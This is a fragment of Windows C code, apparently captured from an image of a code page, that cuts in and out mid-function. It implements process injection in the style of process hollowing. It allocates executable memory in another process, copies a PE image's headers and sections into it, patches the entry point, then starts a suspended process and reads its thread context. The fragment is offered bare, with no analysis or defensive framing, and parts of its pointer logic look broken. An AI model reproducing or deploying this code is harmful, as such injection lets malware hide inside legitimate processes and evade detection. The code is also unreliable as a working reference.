 ```c

                LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, inth.OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

                if (lpBaseAddress == NULL)
                {
                    return false;
                }

                if (!WriteProcessMemory(hProcess, lpBaseAddress, (LPVOID)pe.modBaseAddr, inth.OptionalHeader.SizeOfHeaders, &dwRead))
                {
                    return false;
                }

                for (int i = 0; i < inth.FileHeader.NumberOfSections; i++)
                {
                    ReadProcessMemory(hProcess, (LPVOID)(pe.modBaseAddr + idh.e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))), &ish, sizeof(ish), &dwRead);
                    WriteProcessMemory(hProcess, (LPVOID)((DWORD)lpBaseAddress + ish.VirtualAddress), (LPVOID)((DWORD)pe.modBaseAddr + ish.PointerToRawData), ish.SizeOfRawData, &dwRead);
                }

                DWORD dwEntrypoint = (DWORD)pe.modBaseAddr + inth.OptionalHeader.AddressOfEntryPoint;
                DWORD dwOffset = (DWORD)lpBaseAddress - inth.OptionalHeader.ImageBase + dwEntrypoint;

                if (!WriteProcessMemory(hProcess, (LPVOID)(lpBaseAddress + dwEntrypoint - (DWORD)pe.modBaseAddr), &dwOffset, sizeof(DWORD), &dwRead))
                {
                    return false;
                }

                CloseHandle(hProcess);

                break;
            }
        } while (Process32Next(hSnapshot, &pe));
    }

    CloseHandle(hSnapshot);

    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));

    if (!CreateProcess(NULL, szSourceProcessName, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
    {
        return false;
    }

    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;

    if (!GetThreadContext(pi.hThread, &ctx))
    {
        return false;
    }

```